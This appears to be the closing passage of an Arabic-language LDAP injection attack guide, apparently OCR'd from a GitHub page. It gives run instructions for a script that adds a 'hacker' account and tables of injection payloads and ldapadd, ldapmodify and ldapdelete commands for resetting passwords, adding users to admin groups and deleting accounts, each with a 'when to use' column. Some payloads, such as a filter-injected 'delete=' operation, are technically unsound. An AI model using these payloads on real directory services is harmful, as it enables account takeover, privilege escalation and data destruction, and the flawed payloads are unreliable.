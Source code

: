 - **الإعداد**:
  - استبدل `http://example.com/admin/add_user` بعنوان URL الواجهة.
  - استبدل `"User added"` بشرط النجاح.
  - عدّل `new_user` و`new_password` حسب الحاجة.
- **التشغيل**:
  - `python3 add_user.py`
- **المخرجات**:
  - `[+] User hacker added with password hacker123`
- **الأوامر/الإجراءات**:
  - احفظ السكربت كـ `add_user.py` وشغّله.
  - تحقق من المستخدم بتسجيل الدخول.

---



## ملخص جميع المحاولات
### تعديل بيانات المستخدمين الحاليين
| **الغرض**                     | **الإدخال/الأمر**                                                                 | **الطلب/الإجراء**                                                                 | **متى يُستخدم؟**                                                                 |
|-------------------------------|-----------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|
| تعديل كلمة المرور            | `user1*)(uid=user1)(userPassword=newpass123)`                                     | `POST /admin/change_password` with `username=user1*)(uid=user1)(userPassword=newpass123)` | عند وجود واجهة لتغيير كلمة المرور.                                              |
| تعديل خاصية `mail`           | `user1*)(uid=user1)(mail=hacker@domain.com)`                                      | `POST /admin/update_profile` with `username=user1*)(uid=user1)(mail=hacker@domain.com)` | لتغيير خصائص أخرى مثل البريد.                                                   |
| تعديل عضوية المجموعة         | `user1*)(uid=user1)(memberOf=cn=admins,dc=domain,dc=com)`                         | `POST /admin/update_group` with `username=user1*)(uid=user1)(memberOf=cn=admins,dc=domain,dc=com)` | لرفع صلاحيات مستخدم.                                                            |
| تعديل باستخدام `ldapmodify`  | `ldapmodify -x -H ldap://target_ip -D "cn=administrator,dc=domain,dc=com" -w MYKE -f modify_user1.ldif` | Modify `userPassword` via LDIF file                                               | عند وجود وصول إداري مباشر.                                                       |

### إضافة كائنات جديدة
| **الغرض**                     | **الإدخال/الأمر**                                                                 | **الطلب/الإجراء**                                                                 | **متى يُستخدم؟**                                                                 |
|-------------------------------|-----------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|
| إضافة مستخدم عبر واجهة      | `hacker)(uid=hacker)(objectClass=inetOrgPerson)(userPassword=hacker123)(cn=Hacker)` | `POST /admin/add_user` with `username=hacker)(uid=hacker)(objectClass=inetOrgPerson)(userPassword=hacker123)(cn=Hacker)` | عند وجود واجهة لإضافة مستخدمين.                                                |
| إضافة مستخدم باستخدام `ldapadd` | `ldapadd -x -H ldap://target_ip -D "cn=administrator,dc=domain,dc=com" -w MYKE -f add_hacker.ldif` | Add `hacker` via LDIF file                                                       | عند وجود وصول إداري مباشر.                                                       |
| إضافة إلى مجموعة إدارية     | `hacker)(uid=hacker)(memberOf=cn=admins,dc=domain,dc=com)`                        | `POST /admin/add_group_member` with `username=hacker)(uid=hacker)(memberOf=cn=admins,dc=domain,dc=com)` | لمنح صلاحيات إدارية لمستخدم جديد.                                              |

### حذف كائنات من الديركتوري
| **الغرض**                     | **الإدخال/الأمر**                                                                 | **الطلب/الإجراء**                                                                 | **متى يُستخدم؟**                                                                 |
|-------------------------------|-----------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|
| حذف مستخدم عبر واجهة        | `user1)(uid=user1)(delete=uid=user1,dc=domain,dc=com)`                            | `POST /admin/delete_user` with `username=user1)(uid=user1)(delete=uid=user1,dc=domain,dc=com)` | عند وجود واجهة لحذف مستخدمين.                                                  |
| حذف مستخدم باستخدام `ldapdelete` | `ldapdelete -x -H ldap://target_ip -D "cn=administrator,dc=domain,dc=com" -w MYKE "uid=user1,dc=domain,dc=com"` | Delete `user1` directly                                                         | عند وجود وصول إداري مباشر.                                                       |

### أتمتة
| **الغرض**                     | **الإدخال/الأمر**                                                                 | **الإجراء**                                                                       | **متى يُستخدم؟**                                                                 |
|-------------------------------|-----------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|
| أتمتة تعديل كلمة المرور      | `python3 modify_password.py`                                                      | Modify passwords for multiple users                                               | لتعديل بيانات عدة مستخدمين بسرعة.                                               |
